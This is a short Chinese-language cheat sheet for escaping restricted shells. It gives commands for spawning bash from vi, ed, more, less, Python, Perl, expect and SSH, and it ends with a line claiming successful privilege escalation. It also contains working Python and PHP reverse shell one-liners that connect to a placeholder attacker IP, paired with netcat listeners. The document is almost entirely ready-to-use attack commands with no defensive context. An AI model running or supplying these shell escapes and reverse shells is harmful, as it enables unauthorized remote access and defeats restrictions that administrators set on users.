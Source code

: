 ## 编辑器绕过

### vi编辑器

在命令行输入 vi ，在末行输入 :set shell=/bin/bash
接着在执行命令 :shell 

### ed编辑器

>ed
>!'/bin/bash'

## 编程语言绕过

### Python

>python3 -c 'import os; os.system("/bin/bash");'

### Perl

>perl -e 'system("/bin/bash");'

## 反弹shell 绕过

### Python反弹

攻击机

> nc -lvp

靶机

>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### Php反弹

攻击机

>nc -lvp

靶机

>php -r '$sock=fsockopen("LISTENING IP",LISTENING PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

## 利用二进制文件绕过

### more

> ! 'sh'

### less

>less a.txt

末行模式输入 

>!'sh'

## Expect 绕过

>expect
>export -p        //查看环境变量
>BASH_CMDS[a]=/bin/sh;a         //把/bin/sh给a
>/bin/bash
>export PATH=$PATH:/bin/         //添加环境变量
>export PATH=$PATH:/usr/bin      //添加环境变量

提权成功


## SSH绕过

>ssh text@192.168.1.1 -t "bash --noprofile"




